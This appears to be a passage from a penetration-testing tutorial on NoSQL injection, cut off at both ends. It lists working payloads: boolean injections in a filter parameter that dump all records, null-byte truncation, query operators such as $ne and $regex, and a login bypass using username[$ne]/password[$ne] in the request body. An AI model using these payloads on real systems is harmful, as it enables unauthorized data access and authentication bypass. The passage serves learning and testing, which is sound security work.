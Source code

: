 2. Then determine which characters cause trouble and try narrowing down how to manipulate them into not producing an error. 

```http

#produces error
/?filter='

#no error
/?filter='\''

```

3. Inject logic into the queries to monitor what causes true and false conditions:

```http

# dont forget to URL encode!

# error
/?filter=' && 0 && ' 

# no error?
/?filter=' || 0 || ' 

# retrieve everytrhing!
/?filter=' || 1 || ' 

```

Also works sometimes to inject nullbytes to force the DB to ignore any subsequent characters:

```http

/?filter=' || 1 %00

```

4. Inject noSQL query operators:

```text

$ne	    not equal
$regex	regular expression
$gt	    greater than
$lt	    lower than
$nin	not in

```

5. noSQL expressions can be sent with any types of request. However, GET request does not accept `[]`, so it is needed to probe if the target server accepts POST. In this case, basic auth bypass within the request body can look like this `username[$ne]=xaxaxa&password[$ne]=xaxaxa`. If only json is accepted then convert `Content-Type` from `application/x-www-form-urlencoded` to `application/json` this can be also easily done in Burp with `Content Type Converter`.

Here is a summary of basic auth bypass attack:
